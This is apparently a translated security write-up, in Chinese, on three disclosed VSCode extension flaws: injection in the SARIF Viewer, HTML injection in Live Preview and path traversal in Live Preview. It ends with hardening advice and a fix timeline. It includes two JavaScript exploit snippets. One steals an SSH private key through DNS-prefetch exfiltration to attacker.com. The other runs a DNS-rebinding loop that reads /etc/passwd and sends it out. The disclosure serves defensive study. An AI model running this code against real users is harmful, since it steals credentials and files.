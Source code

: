```yaml
---
date: 2025-08-08T22:56:04+08:00
title: "逃逸配置错误的VSCode扩展 - 技术漏洞分析与利用"
tags: [VSCode安全, Webview逃逸, 漏洞利用, 本地文件泄露]
authors: qife
description: "本文详细分析了三个VSCode扩展漏洞和一个VSCode本体漏洞(CVE-2022-41042)，涵盖HTML/JavaScript注入、路径遍历等技术细节，展示了如何通过DNS预取绕过CSP限制、利用srcdoc iframe执行代码等高级利用技术，最终实现本地文件窃取。"
---
```


## VSCode Webviews基础

在深入漏洞之前，需要理解VSCode扩展的结构。VSCode是基于Electron的应用程序，具有访问文件系统和执行任意shell命令的权限，扩展拥有同等权限。这意味着如果攻击者能在扩展中执行JavaScript（例如通过XSS漏洞），就能完全控制系统。

作为防御XSS漏洞的纵深保护措施，扩展必须在沙盒化的Webview中创建UI面板。这些Webview无法访问NodeJS API（这是主扩展读取文件和运行shell命令的途径）。Webview可通过以下选项进一步限制：

- `enableScripts`：设为false可阻止Webview执行JavaScript。多数扩展需要设为true。
- `localResourceRoots`：限制Webview只能访问指定目录的文件。默认为当前工作区目录和扩展文件夹。
- `内容安全策略(CSP)`：通过Webview HTML源中的`<meta http-equiv="Content-Security-Policy" content="default-src 'none';">`等标签限制内容加载源。

## 漏洞1：Microsoft SARIF查看器的HTML/JavaScript注入

SARIF查看器扩展在渲染分析结果描述时，使用`ReactMarkdown`组件且`escapeHtml`设为false，导致攻击者可通过控制SARIF文件的markdown字段注入任意HTML/JavaScript。

**利用链：**
1. 通过恶意构造的SARIF文件注入`<img onerror>`触发XSS
2. 由于`localResourceRoots`配置为允许访问整个磁盘（包括z:盘），可通过`fetch("vscode-resource://...")`读取任意文件
3. 受限的CSP阻止直接外传数据，但通过`<link rel="dns-prefetch">`标签利用DNS预取泄露文件内容（将文件内容编码在子域名中）

```javascript
// 示例：窃取用户SSH私钥的完整利用代码
const sshKey = await fetch('vscode-resource:///home/user/.ssh/id_rsa');
const hexKey = btoa(await sshKey.text());
for(let i=0; i<hexKey.length; i+=60) {
    const chunk = hexKey.substr(i,60);
    document.head.innerHTML += `<link rel="dns-prefetch" href="//${chunk}.attacker.com">`;
}
```

## 漏洞2：Microsoft Live Preview扩展的HTML注入

该扩展创建本地HTTP服务器(3000端口)预览HTML文件，其Webview中的`link-hover-start`消息处理程序直接将消息内容设置为`innerHTML`而未消毒，导致HTML注入。

**绕过CSP限制的技巧：**
1. 使用`srcdoc iframe`执行JavaScript（与父窗口同源）
2. CSP采用nonce-based script-src，但nonce由不安全的`Math.random()`生成
3. 尝试通过DOM元素注入、nonce暴力破解、状态恢复等方式绕过，最终因不同iframe间的算法状态隔离未能成功

## 漏洞3：Live Preview本地HTTP服务器的路径遍历

服务器解析URL时存在逻辑缺陷：
- 浏览器将`?../../etc/passwd?AAA`的`?`后视为查询参数
- 服务器用`lastIndexOf('?')`分割，导致路径被解析为`/etc/passwd`

**两种利用场景：**
1. 用户预览恶意HTML文件时直接窃取文件
2. 结合DNS重绑定攻击：当扩展在后台运行时，用户仅访问恶意网站即可触发漏洞（无需直接预览文件）

```javascript
// DNS重绑定攻击核心代码
const attackerServer = '7f000001.c0a80d80.rbndr.us'; // 在127.0.0.1和攻击者IP间切换
setInterval(() => {
    fetch(`http://${attackerServer}/?../../../../etc/passwd?`)
    .then(res => res.text().then(data => {
        fetch(`http://attacker.com/?q=${btoa(data)}`);
    }));
}, 1000);
```

## Webview安全配置建议

1. **严格CSP**：从`default-src 'none'`开始，避免`unsafe-inline`，使用加密强度高的nonce
2. **限制localResourceRoots**：仅允许访问扩展安装目录
3. **安全的postMessage处理**：防范命令注入等漏洞
4. **HTTP服务器防护**：
   - 使用标准URL解析库
   - 路径规范化后二次验证
   - 随机端口+端口映射防止DNS重绑定
5. **永远不要将用户输入直接赋给innerHTML**

## 时间线

- 2022年8月12日：报告SARIF查看器漏洞
- 2022年9月7日：报告Live Preview的两个漏洞
- 所有漏洞均在1个月内修复，其中CVE-2022-41042获得$7,500奖金

---

> 本文展示了即使微软官方扩展也可能存在严重配置错误。在后续文章中，我们将分析一个能绕过所有正确配置的VSCode本体漏洞。